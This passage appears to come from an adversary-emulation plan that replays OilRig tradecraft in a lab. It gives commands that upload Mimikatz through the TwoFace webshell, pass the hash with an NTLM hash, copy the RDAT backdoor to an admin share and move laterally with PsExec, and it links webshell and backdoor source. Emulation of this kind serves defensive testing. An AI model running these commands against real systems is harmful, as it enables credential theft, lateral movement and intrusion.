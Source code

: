 ```bash
# OilRig has saved Mimikatz to disk at mom64.exe

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\System32' -F "vir=false" -F "nen=mom64.exe" -F 'f1=@m64.exe' https://10.1.0.6/ews/contact.aspx
```

In the RDP to `WATERFALLS (10.1.0.6)`, open a new Command Prompt as 
Administrator, click yes to the UAC prompt, and execute Mimikatz PTH for `tous`

```bash
# OilRig has used Mimikatz

C:\Windows\System32\mom64.exe "privilege::debug" "sekurlsa::pth /user:tous /domain:BOOMBOX /ntlm:9b7ff4cc0878bee9f099a4a7dc7227c3" "exit"
```

In the new Command Prompt spawned by the Mimikatz pass the hash, copy RDAT to 
`ENDOFROAD (10.1.0.7)`

```bash
# OilRig has saved RDAT to disk as C:\Programdata\Nt.dat before moving and renaming it to C:\Programdata\Vmware\VMware.exe

copy C:\Windows\Temp\Nt.dat \\10.1.0.7\C$\ProgramData\
```

In the new Command Prompt spawned by Mimikatz pass the hash, PsExec to the SQL 
server `ENDOFROAD (10.1.0.7)`

```bash
# OilRig has used PsExec [11]

C:\Windows\System32\ps.exe \\10.1.0.7 cmd.exe
```

<br>

### :moyai: Source Code
:heavy_exclamation_mark: __NB__: Once again, TwoFace (contact.aspx) refers to the "downloads" from this section of the emulation procedure as "Abritrary Folder Upload(s)" in the source code.
* TwoFace Webshell download file to victim: [contact.aspx#L58-L115](contact.aspx#L58-L115)
  
<br>

*  RDAT backdoor: [RDAT](RDAT.)
  
<br>

### :microscope: Cited Intelligence
*  RDAT: https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
*  PSExec: https://unit42.paloaltonetworks.com/unit42-striking-oil-closer-look-adversary-infrastructure/
*  Mimikatz: https://unit42.paloaltonetworks.com/oilrig-novel-c2-channel-steganography/
*  Mimikatz: https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments
